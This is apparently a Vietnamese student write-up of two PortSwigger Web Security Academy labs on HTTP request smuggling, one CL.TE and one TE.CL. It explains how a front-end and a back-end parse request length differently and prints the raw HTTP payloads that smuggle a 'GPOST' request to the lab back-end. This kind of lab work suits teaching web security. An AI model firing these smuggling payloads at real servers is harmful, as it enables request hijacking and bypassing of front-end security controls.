 # Nguyễn Văn Thọ - HTTP Request Smuggling


### Bài 1: HTTP request smuggling, basic CL.TE vulnerability

>![](https://i.imgur.com/JDGPjWa.png)

Để solve bài lab, khiến request method tới phía backend là GPOST

Theo đề, front-end sử dụng `Content-Length` header để xác định độ dài request, back-end thì sử dụng `Transfer-Encoding`. Front-end không support `chunked` encoding và từ chối các request khác GET và POST.

Để tạo request `GPOST` ở phía backend, ta cần đưa vào một request POST và smuggle chữ `G`, sau đó đưa thêm 1 request POST, khi server xác định độ dài các gói HTTP bị sai thì chữ `G` sẽ kết hợp với POST method tiếp theo tạo thành `GPOST` method

Payload:

```
POST / HTTP/1.1
Host: 0a38008b04244bb0c049405700b30046.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Transfer-Encoding: chunked

0\r\n
\r\n
G
```

Với `Content-Length: 5` ta đánh lừa front-end server rằng payload 5 bytes, chữ `G` sẽ thuộc request tiếp theo, vào do đó khai thác thành công.

>![](https://i.imgur.com/yUkws9k.png)

<hr>

### Bài 2: HTTP request smuggling, basic TE.CL vulnerability

>![](https://i.imgur.com/hxvR9ET.png)

Back-end không support chunked encoding, front-end reject các method khác GET với POST.

Để smuggle được 1 `GPOST` request, ta tạo payload có GPOST request (*như bên dưới*), nhưng `Content-Length` chỉ bằng 4, phía backend sẽ coi payload gồm 4 ký tự đầu, `GPOST` phía sau sẽ được backend sử lý như một gói tin tiếp theo vô tình khiến payload trở thành 1 GPOST request

Payload:

```
POST / HTTP/1.1
Host: 0a5a00fe0326fdcbc148679b006900c2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```